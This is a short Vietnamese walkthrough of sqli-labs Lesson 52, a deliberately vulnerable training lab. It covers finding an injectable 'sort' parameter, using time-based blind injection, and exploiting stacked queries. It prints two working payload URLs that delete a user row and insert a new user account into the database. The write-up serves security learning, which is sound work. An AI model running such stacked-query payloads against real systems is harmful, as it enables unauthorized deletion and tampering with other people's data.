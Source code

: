 # Less 52

Đề bài cho phép truyền vào params là `sort`

![](../images/sqli-labs/Less-52/01.png)

Thử truyền vào một số giá trị

![](../images/sqli-labs/Less-52/02.png)

![](../images/sqli-labs/Less-52/03.png)

![](../images/sqli-labs/Less-52/04.png)

Tôi thử truyền vào một số giá trị có thể gây ra lỗi

![](../images/sqli-labs/Less-52/05.png)

![](../images/sqli-labs/Less-52/06.png)

Ta thấy lỗi không được hiển thị lên màn hình

Sử dụng time based để khai thác DB

![](../images/sqli-labs/Less-52/07.png)

![](../images/sqli-labs/Less-52/08.png)

Trong bài này có sử dụng hàm cho phép thực thi nhiều câu query cùng lúc

![](../images/sqli-labs/Less-52/09.png)

Tôi thực hiện xóa username `less44` và thêm vào username `less52`

```
http://192.168.84.233/sqli-labs/Less-52/?sort=1; delete from users where id=44 --+
http://192.168.84.233/sqli-labs/Less-52/?sort=1; insert into users values (52, 'less52','less52') --+
```

![](../images/sqli-labs/Less-52/11.png)

